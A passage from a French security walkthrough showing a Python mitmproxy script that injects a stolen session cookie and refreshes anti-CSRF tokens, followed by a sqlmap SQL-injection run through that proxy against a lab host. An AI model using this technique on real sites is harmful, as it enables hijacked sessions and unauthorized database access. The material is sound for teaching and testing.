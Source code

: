 ```python
        except KeyboardInterrupt:
            self.shutdown()

    def handle_request(self, msg):
        if msg.method == "POST":
            msg.headers["cookie"] = [self.cookie]
            params = msg.get_form_urlencoded()
            params['csrf'] = [self.current_csrf]
            msg.set_form_urlencoded(params)
        msg.reply()

    def handle_response(self, msg):
        if '"csrf"' in msg.content:
            d = json.loads(msg.content)
            self.current_csrf = d["csrf"]
            print "Changing csrf value for", self.current_csrf
        msg.reply()

config = proxy.ProxyConfig()
server = proxy.ProxyServer(config, 3128)
m = StickyMaster(server)
m.run()
```

Il s'initialise en se connectant au site via un cookie volé pour récupérer un premier jeton CSRF valide.  

Ensuite le proxy intercepte les requêtes POST pour à mettre un token CSRF valide.  

Le proxy récupère aussi la réponse du serveur cible car lors d'une requête de suppression la réponse contient aussi une nouvelle valeur pour le token anti-csrf (ce qui réduit ainsi le nombre de requêtes à passer).  

Il est alors possible de lancer *sqlmap* en le faisant parler à notre proxy :  

```plain
./sqlmap.py -u http://192.168.1.64/deletecomment.php  --data="comment_id=*&csrf=plop" --proxy=http://127.0.0.1:3128/

    sqlmap/1.0-dev - automatic SQL injection and database takeover tool
    http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:03:41

custom injection marking character ('*') found in option '--data'. Do you want to process it? [Y/n/q] Y
[17:03:43] [INFO] testing connection to the target URL
[17:03:43] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
[17:03:43] [INFO] testing if the target URL is stable. This can take a couple of seconds
[17:03:44] [WARNING] target URL is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison' and provide a string or regular expression to match on                                                                                                                        
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c
[17:04:04] [INFO] searching for dynamic content
[17:04:04] [INFO] dynamic content marked for removal (1 region)
[17:04:04] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[17:04:04] [INFO] confirming that (custom) POST parameter '#1*' is dynamic
--- snip ---
```